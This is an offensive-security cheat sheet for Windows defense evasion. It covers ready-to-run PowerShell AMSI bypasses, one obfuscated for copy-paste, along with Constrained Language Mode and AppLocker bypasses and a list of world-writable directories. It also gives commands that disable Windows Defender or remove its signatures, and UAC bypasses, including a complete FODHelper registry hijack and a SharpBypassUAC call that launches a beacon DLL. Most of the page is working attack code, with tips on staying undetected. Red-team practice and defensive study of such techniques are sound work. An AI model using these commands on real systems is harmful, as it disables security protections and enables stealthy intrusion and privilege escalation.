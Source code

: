 ## AMSI
### PowerShell AMSI Bypass

Patching AMSI will help bypass AV warnings triggered when executing PowerShell scripts that are marked as malicious (such as PowerView). Do not use as-is in covert operations, as they will get flagged 🚩. Obfuscate, or even better, eliminate the need for an AMSI bypass altogether by altering your scripts to beat signature-based detection.

- ‘Plain’ AMSI bypass:

	```powershell
	[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
	```

- Obfuscation example for copy-paste purposes:

	```powershell
	sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
	```

- Another bypass, which is not detected by PowerShell autologging:

	```powershell
	[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
	```

> More bypasses [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell). For obfuscation, check [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation), or get a pre-generated obfuscated version at [amsi.fail](https://amsi.fail/).

***

## Powershell CLM
### Enumeration
Sometimes you may find yourself in a PowerShell session that enforces Constrained Language Mode (CLM). This is very often the case when paired with AppLocker (see above).

You can identify you’re in constrained language mode by polling the following variable to get the current language mode. It will say `FullLanguage` for an unrestricted session, and `ConstrainedLanguage` for CLM. There are other language modes which I will not go into here.

```powershell
$ExecutionContext.SessionState.LanguageMode
```

### Bypasses
The constraints posed by CLM will block many of your exploitations attempts. One quick and dirty bypass is to use in-line functions, which sometimes works - if e.g. `whoami` is blocked, try the following:

```powershell
&{whoami}
```
- Use Powershell V2, If available
- Invoke powershell without using powershell.exe
	- [p3nt4/PowerShdll: Run PowerShell with rundll32. Bypass software restrictions. (github.com)](https://github.com/p3nt4/PowerShdll)

***


## AppLocker
### Enumeration
Identify AppLocker policy. Look for exempted binaries or paths to bypass.

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Bypasses
Some high-level bypass techniques:

-   Use [LOLBAS](https://lolbas-project.github.io/) if only (Microsoft-)signed binaries are allowed.
-   If binaries from `C:\Windows` are allowed, try dropping your binaries to `C:\Windows\Temp` or `C:\Windows\Tasks`. If there are no writable subdirectories but writable files exist in this directory tree, write your file to an alternate data stream (e.g. a JScript script) and execute it from there.

	**World writable locations**
	```powershell
	C:\Windows\Tasks
	C:\Windows\Temp
	C:\windows\tracing
	C:\Windows\Registration\CRMLog
	C:\Windows\System32\FxsTmp
	C:\Windows\System32\com\dmp
	C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
	C:\Windows\System32\spool\PRINTERS
	C:\Windows\System32\spool\SERVERS
	C:\Windows\System32\spool\drivers\color
	C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
	C:\Windows\SysWOW64\FxsTmp
	C:\Windows\SysWOW64\com\dmp
	C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
	C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
	```
-   Wrap your binaries in a DLL file and execute them with `rundll32` to bypass executable rules. If binaries like Python are allowed, use that. If that doesn’t work, try other techniques such as wrapping JScript in a HTA file or running XSL files with `wmic`.
- Download signed executables with known DLL-Side-Loading/PATH Hijacking vulns. Copy them and the forged DLLs to get code execution. [DLL Side-loading Appverif.exe – Fat Rodzianko](https://fatrodzianko.com/2020/02/15/dll-side-loading-appverif-exe/)

***


## Defender
### Disable defender

👀🚩

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -DisableIOAVProtection $true
```

Or leave Defender enabled, and just remove the signatures from it.

```powershell
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
***
### UAC Bypass

Using [SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC).

```bash
# Generate EncodedCommand
echo -n 'cmd /c start rundll32 c:\\users\\public\\beacon.dll,Update' | base64

# Use SharpBypassUAC e.g. from a CobaltStrike beacon
beacon> execute-assembly /opt/SharpBypassUAC/SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IHJ1bmRsbDMyIGM6XHVzZXJzXHB1YmxpY1xiZWFjb24uZGxsLFVwZGF0ZQ==
```

In some cases, you may get away better with running a manual UAC bypass, such as the FODHelper bypass which is quite simple to execute in PowerShell.

```powershell
# The command to execute in high integrity context
$cmd = "cmd /c start powershell.exe"
 
# Set the registry values
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
 
# Trigger fodhelper to perform the bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
 
# Clean registry
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```